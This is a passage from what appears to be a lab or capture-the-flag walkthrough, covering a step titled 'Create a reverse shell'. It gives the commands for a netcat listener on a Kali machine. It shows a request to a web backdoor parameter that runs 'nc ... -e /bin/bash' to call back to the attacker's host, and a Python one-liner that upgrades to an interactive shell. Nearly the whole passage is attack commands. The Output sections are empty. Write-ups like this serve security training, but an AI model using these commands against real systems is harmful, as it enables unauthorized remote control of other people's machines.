


5.1 Create a reverse shell
1. On your Kali Machine run.
$nc -nlvp 4444
2. Visit http://192.168.12.43/adminsfixit.php?c=nc 192.168.12.10 4444 -e /bin/bash.
On your Kali Machine terminal you'll see there's a connection.
Output:

3. Spawn a pty shell.
which python
python -c 'import pty;pty.spawn("/bin/bash")'
python -c 'import pty;pty.spawn("/bin/bash")'
Output:
